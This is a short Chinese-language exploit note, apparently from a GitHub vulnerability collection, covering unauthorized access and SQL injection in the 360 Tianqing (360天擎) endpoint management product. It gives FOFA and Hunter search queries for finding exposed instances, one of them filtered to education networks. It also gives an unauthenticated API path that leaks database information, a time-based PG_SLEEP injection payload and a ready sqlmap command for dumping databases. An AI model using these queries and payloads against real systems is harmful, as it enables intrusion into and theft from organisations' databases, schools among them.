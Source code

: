 ## 360天擎 - 未授权与sql注入

## FOFA语法
```title="360新天擎"```


## 鹰图
```web.title="360新天擎"&& ip.isp="教育"```

## 漏洞复现

### 未授权漏洞
```路由后拼接/api/dbstat/gettablessize```
![](./assets/20231018183944.png)

### sql注入漏洞
比较推荐的方式先测试是否存在数据库信息泄露，存在的话大概率存在SQL注入
```
路由后拼接/api/dp/rptsvcsyncpoint?ccid=1

{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1';SELECT PG_SLEEP(5)--
```
![](./assets/20231018184057.png)

## sqlmap
python .\sqlmap.py --batch -dbs -u https://{{Hostname}}/api/dp/rptsvcsyncpoint?ccid=1
